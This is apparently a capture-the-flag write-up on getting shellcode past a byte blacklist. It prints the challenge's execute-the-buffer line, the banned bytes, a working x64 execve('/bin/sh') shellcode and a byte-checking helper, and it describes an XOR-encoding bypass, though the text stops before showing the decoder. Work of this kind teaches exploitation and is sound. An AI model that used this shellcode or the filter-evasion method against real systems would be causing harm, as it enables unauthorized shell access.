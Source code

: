 ```c
    // Literally casts the buffer into a function pointer and executes it
    ( ( void (*) () ) buf) ();
}
```


We are given a C program that will read our input into a buffer, check it against the blacklist of banned bytes, and if it passes the check, execute it as shellcode. The challenge is to provide input that does not contain any of the blacklisted bytes while still being valid shellcode.

```c
char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";
```

These bytes correspond to common shellcode patterns and system call opcodes. If any of these bytes are detected in our input, the program refuses to execute it.

## Analysis of the Blacklist

- `\x3b`: execve syscall number
- `\x62`, `\x69`, `\x6e`, `\x73`, `\x68`: ASCII characters for "/bin/sh"
- `\x66`, `\x6c`, `\x61`, `\x67`: ASCII characters for "flag"

This blacklist is designed to prevent direct execution of common shellcode that spawns `/bin/sh` or cat `flag.txt`.


# The Solution

Ok so obviously we need to supply shellcode such that upon inital comparison with the blacklist, it does not contain any of the blacklisted bytes, but when executed it will trasnform itself into valid shellcode that can spawn a shell.

We can do that by XOR encrypting the shellcode and adding a small stub that gets executed right before the shellcode to dynamically decrypt it during runtime.


## Shellcode

For the shellcode I grabbed a Linux x64 `execve("/bin/sh")` shellcode from [Shell-Storm](https://shell-storm.org/shellcode/index.html)

!!! note
    Made sure to get a small one because our buffer is limited to around 60 bytes.

```python
shellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```

To check for banned bytes I wrote a small Python function:

```python
def print_blacklisted(shellcode, blacklist):
    for i in range(len(shellcode)):
        if shellcode[i] in blacklist:
            print(f"\033[31;1;4m{hex(shellcode[i])}\033[0m", end=" ")
        else:
            print(f"{hex(shellcode[i])}", end=" ")

    print()
```
